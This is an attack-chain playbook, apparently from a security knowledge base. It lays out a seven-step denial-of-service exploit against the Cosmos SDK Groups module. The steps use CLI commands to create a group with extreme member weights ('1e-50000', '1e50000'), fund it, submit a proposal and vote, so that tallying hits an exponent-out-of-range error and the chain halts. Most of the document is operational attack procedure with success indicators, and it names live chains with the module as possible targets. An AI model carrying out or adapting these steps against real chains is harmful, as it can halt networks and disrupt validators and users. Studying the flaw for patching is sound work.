

# Cosmos SDK Groups Module DoS via Extreme Member Weights Leading to Chain Halt

Multi-stage attack chain demonstrating a complete workflow to exploit a vulnerability in the Cosmos SDK Groups module, allowing a malicious user to halt the blockchain by creating a group with extreme member weights, causing an exponent out-of-range error during proposal tallying.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Ignite]]
- #exampled

### Target Environment

- Blockchain: Cosmos SDK v0.50.12
- Required services/ports: Groups module enabled
- Network access requirements: Local development environment or access to a Cosmos chain with Groups module

### Initial Access Requirements

- Credential requirements: Admin address (e.g., cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0)
- Network position: Ability to submit transactions to the chain
- Prior access needed: None, as it's a public vulnerability in the module

## Detailed Attack Procedures

### Step 1: Create a New Chain with Ignite - [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Procedure**: [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Objective**: Scaffold and serve a new Cosmos SDK chain for testing the vulnerability.

**Expected Output**: Chain directory created and chain starts running in development mode.

**Success Indicators**:
- Chain scaffolds successfully
- Chain serves without errors

Use [[commands/ignite-scaffold-chain]] to create the chain:

```bash
ignite scaffold chain example
```

Then navigate with [[commands/cd-directory]]:

```bash
cd example
```

Start the chain with [[commands/ignite-chain-serve]]:

```bash
ignite chain serve
```

### Step 2: Create members.json File - [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Procedure**: [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Objective**: Define group members with malicious weights (e.g., '1e-50000' and '1e50000') to trigger the error.

**Expected Output**: members.json file created with extreme weights.

**Success Indicators**:
- File contains valid JSON with malicious weights

Manually create members.json with the specified weights.

### Step 3: Create policy.json File - [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Procedure**: [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Objective**: Define a PercentageDecisionPolicy for the group.

**Expected Output**: policy.json file created.

**Success Indicators**:
- File contains valid policy JSON

Manually create policy.json with 0.5 percentage and appropriate periods.

### Step 4: Create the Group and Transfer Funds - [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Procedure**: [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Objective**: Create the group with malicious weights and fund it.

**Expected Output**: Group created, policies queried, funds transferred.

**Success Indicators**:
- Group creation transaction succeeds
- Funds appear in the policy address

Use [[commands/exampled-tx-group-create]]:

```bash
exampled tx group create-group-with-policy cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0 "" "" members.json policy.json --gas auto --yes
```

Query with [[commands/exampled-q-group-policies]]:

```bash
exampled q group group-policies-by-admin cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0
```

Send funds with [[commands/exampled-tx-bank-send]]:

```bash
exampled tx bank send cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0 cosmos17pmq7hp4upvmmveqexzuhzu64v36re3w3447n7dt46uwp594wtpsqv4fn5 100stake --gas auto --yes
```

### Step 5: Create proposal.json File - [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Procedure**: [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Objective**: Define a proposal to trigger the tally.

**Expected Output**: proposal.json file created.

**Success Indicators**:
- File contains valid proposal JSON with MsgSend

Manually create proposal.json with a MsgSend for 10stake.

### Step 6: Submit and Vote for the Proposal - [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Procedure**: [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Objective**: Submit the proposal and vote to trigger the error in tallying.

**Expected Output**: Proposal submitted and voted, leading to error.

**Success Indicators**:
- Vote transaction succeeds initially
- Tally error occurs in EndBlocker

Use [[commands/exampled-tx-group-submit-proposal]]:

```bash
exampled tx group submit-proposal proposal.json --gas auto --yes
```

Vote with [[commands/exampled-tx-group-vote]]:

```bash
exampled tx group vote 1 cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0 VOTE_OPTION_YES "" --gas auto --yes
```

### Step 7: Observe Chain Halt - [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Procedure**: [[procedures/Exploit-Cosmos-SDK-Groups-Module-with-Malicious-Weights]]

**Objective**: Confirm the chain halts due to the decimal error.

**Expected Output**: Chain stops with 'decimal quotient error: exponent out of range'.

**Success Indicators**:
- Consensus failure observed
- No further blocks produced

Monitor the chain logs for the error.

## Attack Chain Summary

### Key Achievements

1. Successful creation of a malicious group with extreme weights
2. Triggering of tally error leading to chain halt
3. Demonstration of DoS impact on Cosmos SDK chains using Groups module

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Endpoint Denial of Service]]

### MITRE ATT&CK Tactics

- [[Impact]]

---

*Last updated: [TIMESTAMP]*
